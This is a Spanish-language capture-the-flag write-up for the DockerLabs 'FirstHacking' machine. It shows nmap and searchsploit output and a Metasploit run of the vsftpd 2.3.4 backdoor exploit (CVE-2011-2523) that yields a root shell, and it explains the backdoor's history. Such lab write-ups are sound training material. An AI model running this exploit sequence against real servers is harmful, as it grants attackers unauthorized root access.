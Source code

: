```yaml
---
title: FirstHacking
date: 2025-08-27 11:00:00 +0200
categories: [writeup, dockerlabs]
tags: [dockerlabs, hydra, ssh, fuerza bruta]     
image:
    path: https://dockerlabs.es/static/images/logos/logo.png
    alt: Docker Labs
---
```


# FirstHacking

>FirstHacking
Autor: El Pingüino de Mario
Dificultad: Muy Fácil
Fecha de creación: 14/06/2024
{: .prompt-tip }

⚠️Vunerabilidad Remote Code Execution

CVE: CVE-2011-2523

## 🔭 Reconocimiento: 

Comienzo con Nmap, que al fin y al cabo es donde empieza la diversión. 

```shell
nmap -p- 10.88.0.2 -sV -vv
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 72:67:68:3C:12:BD (Unknown)
Service Info: OS: Unix
```

## 💣 Preparación:

Buscamos un "arma" para usar contra esta aplicación.

``` shell
└─$ searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                    | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Result
```

## 🚚 Distribución:

Lanzamos el payload contra nuestro objetivo con Metasploit

``` shell
 msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.88.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.88.0.2:21 - USER: 331 Please specify the password.
[+] 10.88.0.2:21 - Backdoor service has been spawned, handling...
[+] 10.88.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.88.0.1:42055 -> 10.88.0.2:6200) at 2025-09-08 01:06:11 +0200
whoami
root
```

## 🪲 Explotación:

 En julio de 2011, se descubrió que la versión 2.3.4 de vsftpd, descargable desde el sitio principal, había sido comprometida. 
Los usuarios que iniciaban sesión en un servidor vsftpd-2.3.4 comprometido podían usar una cara sonriente :)
como nombre de usuario y obtener acceso a una consola de comandos en el puerto 6200. 
Esto no se debía a una vulnerabilidad de seguridad en vsftpd, sino a que alguien había subido una versión diferente de vsftpd
que contenía una puerta trasera. Desde entonces, el sitio se migró a Google App Engine.

## 👽 Acciones: 
Permite al atacante ganar acceso completo a la máquina como root. Supongo que por eso se llama "firsthacking" "with Metasploit?"

Este write up ha sido realizado en gran parte con la herramienta [DarkReport](../darkreport)